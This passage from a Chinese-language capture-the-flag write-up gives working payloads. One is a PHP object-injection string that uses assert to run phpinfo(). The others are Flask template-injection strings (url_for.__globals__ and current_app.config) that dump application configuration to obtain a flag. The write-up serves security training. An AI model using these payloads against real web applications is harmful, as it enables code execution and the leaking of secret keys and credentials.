 ```
$c = new HelloPhp;
echo serialize($c);
?> 
```

获得序列化字符串

```
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";} 
```

传入data变量。

这样我们就进入了phpinfo

寻找flag 哎 找到了 哎 就是玩

n还有一个函数叫做url_for，**其作用是url是用于构建指定函数的URL**，在配合globals()，**该函数会以字典类型返回当前位置的全部全局变量**。这样也可以实现查看的效果

payload:

```
/shrine/{{url_for.__globals__}} 
```

![img](img/38de3e4a584a3b0c18828c27e0ca20f9.png)

current_app’: <Flask ‘app’>这里的current就是指的当前的app，这样我们只需要能查看到这个的config不就可以看到flag了，那么构造payload

```
/shrine/{{url_for.__globals__['current_app'].config}} 
```

得到flag

也可以利用**get_flashed_messages() 方法**

## 参考博客

[shrink模板总结](https://blog.csdn.net/houyanhua1/article/details/85470175?utm_medium=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&dist_request_id=1332048.326.16193521075758381&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)
